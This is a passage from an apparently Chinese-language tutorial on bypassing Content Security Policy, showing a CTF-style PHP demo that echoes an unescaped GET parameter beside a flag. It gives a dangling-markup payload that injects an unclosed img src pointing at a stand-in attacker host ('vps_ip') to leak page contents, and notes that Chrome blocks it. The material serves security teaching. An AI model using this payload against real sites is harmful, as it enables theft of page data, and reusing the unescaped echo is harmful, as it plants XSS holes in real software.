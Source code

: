 **条件**

1.可以加载外域资源 (`img-src: *`)

2.需要获取页面某处的信息

**demo**

```php+HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self';script-src 'self'; img-src *;">
<?php echo $_GET['xss']?>
<h1>flag{0xffff}</h1>
<h2 id="id">3</h2>
```

利用方法

```html
http://127.0.0.1/csp.php?xss=<img src="//vps_ip?a=
```

注意这里src只有左边的引号

![image-20210614162156829](CSP策略及绕过方法/image-20210614162156829.png)

chorme下该payload并不会成功，因为chrome不允许发出的url中含有回车或<

![image-20210614162208999](CSP策略及绕过方法/image-20210614162208999.png)

### 0x07 站点可控静态资源绕过

**条件**
